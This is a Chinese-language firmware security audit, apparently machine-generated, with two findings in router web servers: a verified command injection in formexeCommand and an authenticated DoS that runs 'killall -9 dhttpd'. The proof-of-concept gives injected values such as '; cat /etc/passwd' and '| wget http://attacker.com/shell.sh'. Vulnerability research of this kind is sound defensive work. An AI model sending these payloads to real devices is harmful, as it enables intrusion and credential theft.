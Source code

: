 - **文件/目录路径：** `bin/httpd`
- **位置：** `httpd:0x7bc0c sym.formexeCommand`
- **描述：** 在 'httpd' 的 `formexeCommand` 函数中发现命令注入漏洞。该函数处理 HTTP 请求中的用户输入，并通过 `doSystemCmd` 执行系统命令。用户输入通过 `fcn.0002babc` 获取，并使用 `strcpy` 复制到固定大小缓冲区（512 字节），缺少边界检查。随后，输入被直接传递给 `doSystemCmd`，允许攻击者注入恶意命令。触发条件：攻击者发送特制 HTTP 请求到暴露的 CGI 端点（如 `/cgi-bin/` 相关路径），需有效登录凭据。利用方式：在输入中嵌入命令分隔符（如 `;`、`|` 或反引号），注入任意命令执行，可能导致权限提升或设备控制。
- **代码片段：**
  ```
  // 从用户输入获取数据
  uVar2 = fcn.0002babc(*(puVar5 + (0xdcec | 0xffff0000) + iVar1 + -0xc), iVar4 + *0x7befc, iVar4 + *0x7bf00);
  *(puVar5 + -0xc) = uVar2;
  // 使用 strcpy 复制输入到缓冲区，缺少边界检查
  sym.imp.strcpy(puVar5 + iVar1 + -0x21c, *(puVar5 + -0xc));
  // 直接使用用户输入执行系统命令
  sym.imp.doSystemCmd(iVar4 + *0x7bf14, puVar5 + iVar1 + -0x21c);
  ```
- **备注：** 攻击链完整：从 HTTP 输入点到命令执行。需验证实际 HTTP 端点路径和认证机制。建议检查其他调用 doSystemCmd 的函数（如 formMfgTest）是否存在类似问题。后续分析应关注输入验证函数（如 fcn.0002babc）和 doSystemCmd 的实现。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。证据来自反编译代码：用户输入通过 `fcn.0002babc` 从 HTTP 请求获取，使用 `strcpy` 复制到 512 字节缓冲区（缺少边界检查），并直接传递给 `doSystemCmd` 执行。攻击者模型为经过认证的远程用户（需有效登录凭据），可发送 HTTP 请求到 CGI 端点。漏洞可利用，因为输入在绕过 `strcmp` 检查后（提供不匹配预定义字符串的输入）直接用于命令执行。概念验证（PoC）：攻击者通过认证后，发送 HTTP POST 或 GET 请求到端点（如 `/cgi-bin/formexeCommand`），在参数中注入命令（例如，参数值包含 `; cat /etc/passwd` 或 `| wget http://attacker.com/shell.sh`），导致任意命令执行。

## 验证指标

- **验证时长：** 275.69 秒
- **Token 使用量：** 336340

---

## 原始信息

- **文件/目录路径：** `bin/dhttpd`
- **位置：** `dhttpd:0x00034ca0 formSetWanErrerCheck`
- **描述：** 函数 'formSetWanErrerCheck' 包含一个 DoS 漏洞，允许认证用户通过 HTTP 参数 'no-notify' 触发 'killall -9 dhttpd' 命令。具体攻击链：1) 用户发送 HTTP 请求（例如 POST 到 /goform）包含参数 'no-notify=true'；2) 函数使用 'fcn.000153cc' 获取参数值，并与硬编码字符串（推断为 'true'）比较；3) 如果匹配，设置 NVRAM 变量 'wan.dnsredirect.flag' 并执行 'doSystemCmd' 调用 'killall -9 dhttpd'；4) 导致 web 服务器终止，造成 DoS。攻击条件：攻击者已认证（非 root），但无需特殊权限。漏洞缺乏输入过滤，依赖硬编码比较，易被利用。
- **代码片段：**
  ```
  0x00034d38      0310a0e1       mov r1, r3                  ; 'no-notify' 参数
  0x00034d3c      e8309fe5       ldr r3, [0x00034e2c]        ; 硬编码字符串地址
  0x00034d40      033084e0       add r3, r4, r3              ; 硬编码字符串 'ture'（可能为 'true'）
  0x00034d44      0320a0e1       mov r2, r3                  ; 比较字符串
  0x00034d48      9f81ffeb       bl fcn.000153cc             ; 获取参数值
  ...
  0x00034d70      14101be5       ldr r1, [s2]                ; 参数值
  0x00034d74      7d53ffeb       bl sym.imp.strcmp           ; 字符串比较
  0x00034d78      0030a0e1       mov r3, r0
  0x00034d7c      000053e3       cmp r3, 0                   ; 检查是否匹配
  0x00034d80      0a00001a       bne 0x34db0                 ; 不匹配则跳转
  ...
  0x00034da4      033084e0       add r3, r4, r3              ; 'killall -9 dhttpd' 命令字符串
  0x00034da8      0300a0e1       mov r0, r3                  ; 命令参数
  0x00034dac      3f53ffeb       bl sym.imp.doSystemCmd      ; 执行危险命令
  ```